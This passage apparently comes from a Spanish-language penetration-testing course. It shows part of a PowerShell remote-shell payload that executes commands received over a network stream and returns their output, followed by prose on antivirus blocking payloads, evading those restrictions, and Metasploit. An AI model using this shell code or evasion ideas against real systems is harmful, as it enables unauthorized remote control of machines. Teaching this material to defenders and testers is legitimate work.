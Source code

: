 ```powershell
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```

## Los Payloads Toman Diferentes Formas

Comprender qué están haciendo los diferentes tipos de payloads puede ayudarnos a entender por qué el antivirus (AV) los bloquea y darnos una idea de qué cambios podríamos necesitar para evitar las restricciones. Esto es algo que exploraremos más adelante en este módulo.

Algunos payloads no son one-liners y no se implementan manualmente como los que estudiamos en esta sección. Algunos se generan usando frameworks de ataque automatizados, como el poderoso **Metasploit**, que exploraremos en la próxima sección.
